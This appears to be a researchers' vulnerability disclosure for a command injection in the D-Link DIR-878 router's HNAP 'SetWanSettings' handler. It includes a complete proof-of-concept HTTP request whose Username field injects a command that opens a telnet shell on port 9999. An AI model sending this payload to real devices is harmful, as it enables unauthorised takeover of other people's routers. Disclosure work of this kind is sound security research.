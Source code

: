 

# D-Link Vulnerability

Vendor:D-Link

Product:DIR_878

Version:DIR_878_FW1.30B08_Hotfix_02(Download Link:https://support.dlink.com/ProductInfo.aspx?m=DIR-878)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `system` function with untrusted input from the request body for the `SetWanSettings` API function (PPTP,need authentication).

**Command Execution**

`prog.cgi` binary:

In `SetWanSettings` function,`Username`、`Password` is directly passed by the attacker.After that, call the function sub_4661DC.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked.And then,call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

`rc` binary:

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.



## PoC

We set `Username` as **';telnetd -l /bin/sh -p 9999 -b 0.0.0.0;echo'** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetWanSettings"
HNAP_AUTH: BDDA68629752DBE57718D89602A836E5 1638772968264
Content-Length: 1114
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Internet.html
Cookie: uid=4DsfjbH6

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
			<Type>StaticPPTP</Type>
			<Username>';telnetd -l /bin/sh -p 9999 -b 0.0.0.0;echo'</Username>
			<Password>e6c8b6d180e425ff4ca7b82f02b172861c13b6d130e425294ca7d32f024372861c13b6d130e425294ca7d32f024372861c13b6d130e425294ca7d32f02437286</Password>
			<MaxIdleTime>300</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName>119.75.217.109</ServiceName>
			<AutoReconnect>false</AutoReconnect>
			<IPAddress>192.168.0.5</IPAddress>
			<SubnetMask>255.255.255.0</SubnetMask>
			<Gateway>192.168.0.1</Gateway>
			<ConfigDNS>
				<Primary>162.242.211.137</Primary>
				<Secondary>78.46.223.24</Secondary>
			</ConfigDNS>
			<MacAddress/>
			<MTU>1400</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWanSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:100%;" /></div


## Result

This will triger the `start_wan` method, and then get a shell!

<div  align="center"><img src="./images/7.png" style="zoom:100%;" /></div>
